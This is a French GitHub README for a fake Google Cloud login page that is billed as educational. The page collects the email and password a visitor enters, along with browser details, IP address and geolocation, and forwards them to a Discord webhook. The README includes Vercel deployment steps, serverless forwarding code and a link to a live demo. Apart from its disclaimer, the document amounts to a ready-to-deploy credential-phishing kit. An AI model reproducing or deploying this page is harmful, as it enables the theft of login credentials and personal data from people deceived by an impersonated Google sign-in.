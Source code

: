 # 🌐 GCloud Connexion – Démo Éducative

Ce projet est une **fausse page de connexion GCloud** à but **strictement pédagogique**. Il sert à montrer comment collecter certaines données côté client (navigateur, IP, géo) et les envoyer à un webhook Discord.

> ⚠️ Ce projet ne fait aucune vraie authentification. Il est à **usage éducatif uniquement**.

---

## ✨ Fonctionnalités

- Interface UI inspirée de Google
- Collecte côté client :
  - Email et mot de passe (fictifs)
  - Infos navigateur (agent, langue, fuseau, résolution…)
  - IP et géolocalisation approximative via [ipapi.co](https://ipapi.co/json)
- Envoi des données dans un **webhook Discord** sécurisé via variable d’environnement
- Déploiement automatique avec [Vercel](https://vercel.com)

---

## 🛠️ Tech Stack

- HTML / CSS / JS pur
- API Web natives (`fetch`, `navigator`, etc.)
- [ipapi.co](https://ipapi.co/json) pour l’IP et géolocalisation
- Hébergement via [Vercel](https://vercel.com)

---

## 🚀 Déploiement (Vercel)

### 1. Cloner le repo

```bash
git clone https://github.com/PariaHRZ/gcloud-login
cd gcloud-login
```

### 2. Déployer avec Vercel

1. Va sur [vercel.com](https://vercel.com)
2. Connecte ton compte GitHub
3. Clique sur **"Add New → Project"**
4. Sélectionne le repo
5. Va dans l’onglet **Environment Variables** et ajoute :

| Nom de la variable      | Valeur (exemple)                        |
|-------------------------|-----------------------------------------|
| `DISCORD_WEBHOOK_URL`   | `https://discord.com/api/webhooks/...` |

6. Lance le déploiement ✅

Ton site sera accessible à une URL comme :
```
https://ton-projet.vercel.app
```

---

## 📦 Lancer en local

```bash
git clone https://github.com/PariaHRZ/gcloud-login
cd gcloud-login
open index.html  # ou double-clique dessus
```

⚠️ En local, le webhook Discord **ne fonctionnera pas** sans backend intermédiaire.

---

## 🔒 Sécurité du webhook

Le webhook Discord est **stocké dans une variable d’environnement** (`DISCORD_WEBHOOK_URL`) sur Vercel, et **jamais exposé dans le code HTML/JS**.

L’envoi se fait vers une API Vercel (serverless function) sécurisée.

---

## 📁 Exemple d’API (à mettre dans `/api/webhook.js`)

```js
export default async function handler(req, res) {
  const webhook = process.env.DISCORD_WEBHOOK_URL;
  if (!webhook) return res.status(500).send("Webhook manquant");

  await fetch(webhook, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(req.body),
  });

  res.status(200).send("OK");
}
```

Et côté client dans ton JS :

```js
fetch("/api/webhook", {
  method: "POST",
  headers: { "Content-Type": "application/json" },
  body: JSON.stringify({ content: message })
});
```

---

## 📄 Licence

[MIT – libre d’adaptation à des fins pédagogiques.](https://github.com/PariaHRZ/gcloud-login/blob/main/LICENSE)

---

## 🔗 Démo

🔗 [https://gcloud-login-git-main-pariahrzs-projects.vercel.app/](https://gcloud-login-git-main-pariahrzs-projects.vercel.app/)

OU

<img src="https://github.com/user-attachments/assets/632e655f-7d6c-43ad-b329-03e0f32c0be0" width="450"/>

